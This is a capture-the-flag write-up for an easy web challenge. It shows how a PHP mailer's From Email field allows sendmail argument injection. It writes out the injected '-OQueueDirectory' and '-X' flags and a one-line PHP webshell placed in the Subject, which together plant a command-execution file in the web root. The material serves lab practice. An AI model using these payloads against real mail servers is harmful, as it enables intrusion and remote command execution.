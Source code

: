 ### Name: Letter Despair
#### Difficulty: Easy
#### Category: Web
Description:
> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

---
Visiting the challenge endpoint, we get a directory listing:

![](./images/1.png)

The `mailer.zip` contains the source code of the `mailer.php` page.

![](./images/2.png)

### mailer.php

![](./images/3.png)

At first I thought that it was some file upload vulnerability by looking at the attachment feature. But looking through the source code, it wasn't the case.
Even so, I ran the page locally with php server to see where the uploaded file is stored. Then I saw something on the server logs.

![](./images/4.png)

It was calling out `sendmail`. Sendmail is a CLI tool which is used to send emails. I installed sendmail and used pspy to see the command line used to run the binary.

![](./images/5.png)

It looks like the `From Email` parameter is directly being passed in to the shell command. This looks like an interesting injection point.
I tried performing injections with characters such as `&&`  and `;` but these were escaped properly.
I searched online and saw that there were many known exploits for PHP sendmail command injection.
I came across this one https://www.exploit-db.com/exploits/40970. Here, they were able to pass additional flag parameters onto the command using `-oQ /tmp -X/var/www/cache/phpcode.php`. It basically stores the log which contains the contents of the email and saves locally to a file at `/var/www/cache/phpcode.php`.

Simillarly, I tried with the following payload:
**From Email**:
```sh
relations@moi.gov.htb -OQueueDirectory=/tmp -X/var/www/html/cmd.php
```
**Subject**:
```php
<?php echo shell_exec($_GET['cmd']);?>
```

This will create a file at `/var/www/html/cmd.php` that will contain the php code at subject. We can then use it as a webshell to run commands on the server.

![](./images/6.png)

---

### Automate it

[![asciicast](https://asciinema.org/a/ABKXeshfBlHoNLLBPKzE1GLgc.svg)](https://asciinema.org/a/ABKXeshfBlHoNLLBPKzE1GLgc)